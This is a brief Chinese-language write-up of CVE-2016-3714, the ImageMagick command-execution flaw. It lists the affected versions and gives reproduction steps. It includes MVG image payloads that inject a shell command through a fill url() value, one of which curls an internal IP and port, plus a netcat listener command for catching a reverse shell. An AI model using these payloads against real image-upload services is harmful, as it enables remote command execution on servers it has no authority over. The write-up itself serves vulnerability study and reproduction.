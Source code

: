 （CVE-2016-3714）ImageMagick 命令执行漏洞
=========================================

一、漏洞简介
------------

/etc/ImageMagick/delegates.xml 将%s，%l加入到command里造成了命令执行

二、漏洞影响
------------

ImageMagick 6.5.7-8 2012-08-17(手工测试风险存在)

ImageMagick 6.7.7-10 2014-03-06(手工测试风险存在)

低版本至6.9.3-9 released 2016-04-30

三、复现过程
------------

### poc

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://"| command")'
    pop graphic-context

图片上传点，抓包，附上exp代码：

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://"| curl 172.16.20.108:8888")'
    pop graphic-context

> ip：你要反弹的shell地址，2333端口号，服务器监听反弹shell。

    nc -lvp ``8888

image
